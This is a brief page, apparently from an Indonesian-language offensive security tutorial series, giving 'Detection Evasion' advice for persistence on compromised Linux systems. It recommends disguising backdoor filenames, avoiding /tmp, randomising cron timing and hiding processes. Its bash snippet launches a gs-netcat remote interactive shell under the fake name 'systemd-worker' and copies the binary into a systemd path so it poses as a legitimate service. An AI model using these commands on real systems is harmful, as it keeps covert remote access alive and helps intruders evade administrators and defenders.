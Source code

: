 ## 🚨 Detection Evasion

### 1. Avoid Common Patterns:
- Jangan gunakan `/tmp` untuk file persistence
- Hindari nama file yang obvious (shell.sh, backdoor.exe)
- Gunakan legitimate system paths

### 2. Timing Considerations:
- Jangan set cron job setiap menit
- Randomize execution times
- Avoid peak hours

### 3. Process Hiding:
```bash
# Change process name
exec -a "systemd-worker" gs-netcat -c -s secret -i

# Use legitimate process paths
cp gs-netcat /usr/lib/systemd/systemd-networkd
```

---

**Next**: [04-JavaScript-Enumeration](../04-JavaScript-Enumeration/) - Enumerasi JavaScript untuk bug bounty

